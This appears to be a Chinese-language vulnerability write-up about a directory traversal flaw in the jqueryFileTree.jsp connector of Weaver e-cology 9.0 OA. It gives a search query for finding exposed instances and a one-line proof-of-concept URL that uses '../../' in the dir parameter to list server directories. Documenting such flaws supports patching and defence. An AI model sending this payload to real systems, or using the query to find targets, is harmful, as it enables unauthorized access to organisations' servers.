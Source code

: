 # 泛微OA E-Cology jqueryFileTree.jsp 目录遍历漏洞

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等，其中  jqueryFileTree.jsp 文件中 dir 参数存在目录遍历漏洞，攻击者通过漏洞可以获取服务器文件目录信息

## 漏洞影响

<a-checkbox checked>泛微e-cology 9.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1636962061131-2d870e8d-e15c-4864-8d36-69bd1f57d746-2361681.png)

验证POC

```php
/hrm/hrm_e9/orgChart/js/jquery/plugins/jqueryFileTree/connectors/jqueryFileTree.jsp?dir=/page/resource/userfile/../../
```

![img](../../../.vuepress/public/img/1662361654117-6a9aece5-41fe-40de-a608-c3be49eb5a48.png)